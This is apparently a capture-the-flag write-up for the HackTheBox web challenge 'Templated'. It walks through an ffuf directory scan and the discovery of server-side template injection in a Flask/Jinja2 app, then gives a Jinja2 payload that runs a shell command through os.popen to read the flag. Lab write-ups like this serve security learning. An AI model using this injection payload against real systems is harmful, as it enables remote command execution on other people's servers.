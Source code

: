 ```yaml
---
description: This is a web challenge from hackthebox.
---
```


# Templated \[EASY]

{% embed url="https://app.hackthebox.com/challenges/templated" %}
Link
{% endembed %}

## **ATTACK SUMMARY:**

> 1. Directed all the traffic through the bup proxy.
> 2. Backend server is werkzeug 1.0.1 and python 3.9.0.

```bash
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 79
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Thu, 19 Jan 2023 08:44:50 GMT
```

After visiting the site we got . "Site still under construction

Proudly powered by Flask/Jinja2"

#### Directory scan:

```bash
hax-13@ZARB:~/Documents/ctfs/htb/WEB/templated$ cat ffuf/ini-com-scn.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://161.35.169.118:32199/FUZZ
 :: Wordlist         : FUZZ: /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response lines: 3
________________________________________________


```

Nothing found during directory scan.

After some ticketing around found some interesting behavior when we try to access a nonexistent directory it's name is reflected back in the response and as name suggests.&#x20;

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>SSTI CONFIRMED</p></figcaption></figure>

Let's find a payload to read flag of the system.

`{{ self._TemplateReference__context.cycler.init.globals.os.popen('cat flag.txt').read() }}`

``

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection" %}

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
